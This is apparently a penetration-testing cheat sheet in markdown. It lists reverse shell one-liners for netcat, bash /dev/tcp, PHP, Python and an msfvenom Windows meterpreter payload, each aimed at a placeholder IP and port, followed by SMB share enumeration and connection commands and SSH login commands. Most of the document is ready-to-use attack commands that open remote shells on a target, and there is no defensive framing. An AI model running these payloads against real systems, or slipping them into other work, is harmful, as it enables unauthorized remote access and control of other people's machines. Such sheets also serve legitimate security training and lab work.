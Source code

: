 #### Netcat
```shell
nc <IP> <PORT> -c bash
```

#### Bash
```shell
/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

#### PHP
```php
<?php exec(“/bin/bash -c ‘bash -i >& /dev/tcp/<IP>/<PORT> 0>&1’”); phpinfo(); ?>
```

#### Python
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Metasploit Reverse TCP Windows
```shell
msfvenom -p  windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o ./reverseshell.exe
```

<br>

### SMB
#### See what shares are on the host
```shell
smbclient -L <IP>
```
```shell
smbmap -H <IP>
```

#### Connect
```shell
smbclient //<IP>/<SHARE_NAME>
```
```shell
smbclient //<IP>/<SHARE_NAME> -U <USERNAME> <PASSWORD>
```

<br>

### SSH
```shell
ssh <USER>@<IP>
```
```shell
ssh -i id_rsa <USER>@<IP>
```
